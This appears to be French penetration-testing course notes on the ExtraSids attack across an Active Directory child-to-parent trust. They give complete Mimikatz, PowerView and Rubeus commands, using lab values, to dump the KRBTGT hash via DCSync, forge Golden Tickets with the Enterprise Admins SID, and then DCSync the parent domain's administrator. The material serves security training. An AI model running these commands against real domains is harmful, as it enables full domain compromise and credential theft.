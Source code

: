 # Attacking Domain Trusts - Child -> Parent Trusts - from Windows

***

### <mark style="color:blue;">**Introduction à l'historique SID**</mark>

L'attribut **sidHistory** est utilisé dans les scénarios de migration. Si un utilisateur d'un domaine est migré vers un autre domaine, un nouveau compte est créé dans ce second domaine. Le SID de l'utilisateur original sera ajouté à l'attribut d'historique SID du nouveau compte, garantissant ainsi que l'utilisateur peut toujours accéder aux ressources du domaine d'origine.

L'historique SID est conçu pour fonctionner entre les domaines, mais peut également fonctionner dans le même domaine. En utilisant Mimikatz, un attaquant peut réaliser une injection d'historique SID et ajouter un compte administrateur à l'attribut d'historique SID d'un compte qu'il contrôle. Lorsqu'il se connecte avec ce compte, tous les SIDs associés au compte sont ajoutés au jeton de l'utilisateur.

Ce jeton est utilisé pour déterminer aux ressources auxquelles le compte peut accéder. Si le SID d'un compte Administrateur de Domaine est ajouté à l'attribut d'historique SID de ce compte, alors ce compte pourra exécuter DCSync et créer un Golden Ticket ou un ticket-granting ticket Kerberos (TGT), ce qui nous permettra de nous authentifier en tant que n'importe quel compte dans le domaine de notre choix pour assurer une persistance ultérieure.

***

### <mark style="color:blue;">**Attaque ExtraSids – Mimikatz**</mark>

Cette attaque exploite le mécanisme **sidHistory** dans un domaine enfant compromis pour injecter le SID du groupe des Administrateurs d'Entreprise du domaine parent. En ajoutant ce SID dans l'attribut sidHistory d'un compte (même inexistant), l'attaquant obtient des privilèges administratifs sur le domaine parent via un Golden Ticket. Pour réaliser l'attaque, il faut récupérer plusieurs éléments avec Mimikatz : le hash NT du compte KRBTGT du domaine enfant, le SID et le FQDN du domaine enfant, le nom d'un utilisateur cible (même fictif) et le SID du groupe Administrateurs d'Entreprise du domaine racine. Une fois ces données obtenues, l'attaquant peut créer un Golden Ticket pour compromettre totalement le domaine parent.

<mark style="color:orange;">**Obtention du hash NT du compte KRBTGT à l'aide de Mimikatz**</mark>

```powershell
PS C:\htb>  mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
```

Nous pouvons utiliser la fonction **Get-DomainSID** de PowerView pour obtenir le SID du domaine enfant, mais ce SID est également visible dans la sortie de Mimikatz ci-dessus.

<mark style="color:orange;">**Utilisation de Get-DomainSID**</mark>

```powershell
PS C:\htb> Get-DomainSID
```

```
S-1-5-21-2806153819-209893948-922872689
```

Ensuite, nous pouvons utiliser **Get-DomainGroup** depuis PowerView pour obtenir le SID du groupe des Administrateurs d'Entreprise dans le domaine parent. Nous pourrions également le faire avec la cmdlet **Get-ADGroup** via une commande telle que :

```powershell
Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"
```

**Obtention du SID du groupe des Administrateurs d'Entreprise à l'aide de Get-DomainGroup**

{% code overflow="wrap" fullWidth="true" %}
```powershell
PS C:\htb> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```
{% endcode %}

{% code overflow="wrap" fullWidth="true" %}
```
distinguishedname                                       objectsid                                    
-----------------                                       ---------                                    
CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519
```
{% endcode %}

* Le hash KRBTGT pour le domaine enfant : **9d765b482771505cbe97411065964d5f**
* Le SID du domaine enfant : **S-1-5-21-2806153819-209893948-922872689**
* Le nom d'un utilisateur cible dans le domaine enfant (inutile qu'il existe pour créer notre Golden Ticket !) : Nous choisirons un faux utilisateur : **hacker**
* Le FQDN du domaine enfant : **LOGISTICS.INLANEFREIGHT.LOCAL**
* Le SID du groupe des Administrateurs d'Entreprise du domaine racine : **S-1-5-21-3842939050-3880317879-2865463114-519**

**Utilisation de ls pour vérifier l'absence d'accès**

```powershell
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$
```

```
ls : Accès refusé  
```

En utilisant Mimikatz et les données collectées ci-dessus, nous pouvons créer un Golden Ticket pour accéder à toutes les ressources du domaine parent.

<mark style="color:orange;">**Création d'un Golden Ticket avec Mimikatz**</mark>

```powershell
PS C:\htb> mimikatz.exe
```

{% code overflow="wrap" fullWidth="true" %}
```
mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```
{% endcode %}

{% code fullWidth="true" %}
```
Golden ticket for 'hacker @ LOGISTICS.INLANEFREIGHT.LOCAL' successfully submitted for current session
```
{% endcode %}

Nous pouvons confirmer que le ticket Kerberos pour l'utilisateur **hacker** (qui n'existe pas réellement) est désormais en mémoire.

**Confirmation de la présence du ticket Kerberos en mémoire avec klist**

```powershell
PS C:\htb> klist
```

{% code fullWidth="true" %}
```
Current LogonId is 0:0xf6462

Cached Tickets: (1)

#0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL  
        Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL  
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)  
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent  
        Start Time: 3/28/2022 19:59:50 (local)  
        End Time:   3/25/2032 19:59:50 (local)  
        Renew Time: 3/25/2032 19:59:50 (local)  
        Session Key Type: RSADSI RC4-HMAC(NT)  
        Cache Flags: 0x1 -> PRIMARY  
        Kdc Called:
```
{% endcode %}

À partir de là, il est possible d'accéder à n'importe quelle ressource dans le domaine parent, et nous pourrions compromettre ce domaine de plusieurs manières.

<mark style="color:orange;">**Liste complète du lecteur C: du contrôleur de domaine**</mark>

```powershell
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$
```

***

### <mark style="color:blue;">**Attaque ExtraSids – Rubeus**</mark>

Nous pouvons également exécuter cette attaque à l'aide de **Rubeus**. Tout d'abord, nous confirmerons à nouveau que nous n'avons pas accès au système de fichiers du contrôleur de domaine du domaine parent.

<mark style="color:orange;">**Utilisation de ls pour confirmer l'absence d'accès avant d'exécuter Rubeus**</mark>

```powershell
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$
```

```
ls : Accès refusé  
```

Ensuite, nous allons formuler notre commande Rubeus en utilisant les données récupérées ci-dessus. Le paramètre **/rc4** correspond au hash NT du compte KRBTGT. Le paramètre **/sids** indiquera à Rubeus de créer notre Golden Ticket en nous conférant les mêmes droits que les membres du groupe des Administrateurs d'Entreprise dans le domaine parent.

<mark style="color:orange;">**Création d'un Golden Ticket avec Rubeus**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell
PS C:\htb>  .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```
{% endcode %}

```
[+] Ticket successfully imported!
```

Une fois de plus, nous pouvons vérifier que le ticket est bien en mémoire en utilisant la commande **klist**.

<mark style="color:orange;">**Confirmation du ticket en mémoire avec klist**</mark>

```powershell
PS C:\htb> klist
```

```
Current LogonId is 0:0xf6495

Cached Tickets: (1)

#0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL  
        Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL  
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)  
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent  
        Start Time: 3/29/2022 10:06:41 (local)  
        End Time:   3/29/2022 20:06:41 (local)  
        Renew Time: 4/5/2022 10:06:41 (local)  
        Session Key Type: RSADSI RC4-HMAC(NT)  
        Cache Flags: 0x1 -> PRIMARY  
        Kdc Called:
```

Enfin, nous pouvons tester cet accès en réalisant une attaque DCSync contre le domaine parent, en ciblant l'utilisateur **lab\_adm** (Administrateur de Domaine) dans le domaine **INLANEFREIGHT**.\\

***

### <mark style="color:blue;">**Réalisation d'une attaque DCSync**</mark>

```powershell
PS C:\Tools\mimikatz\x64> .\mimikatz.exe
```

Puis, dans Mimikatz :

```
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm
```

Lorsque nous traitons plusieurs domaines et que notre domaine cible n'est pas le même que celui de l'utilisateur, nous devons spécifier exactement le domaine sur lequel exécuter l'opération DCSync sur le contrôleur de domaine concerné. La commande serait alors :

```
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```

La sortie sera similaire à celle précédemment affichée.

***
